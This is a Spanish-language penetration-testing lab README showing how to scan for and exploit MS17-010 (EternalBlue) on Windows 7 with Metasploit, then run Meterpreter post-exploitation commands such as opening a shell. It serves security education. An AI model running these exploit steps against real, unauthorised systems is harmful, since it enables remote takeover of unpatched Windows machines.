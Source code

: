 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.png "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.png "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST < Rhost-id > 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.png "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.png "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig7-msf-console.png "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig5-msf-console.png "Metasploit framework")

Enlace para mayor información
https://www.metasploit.com/
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/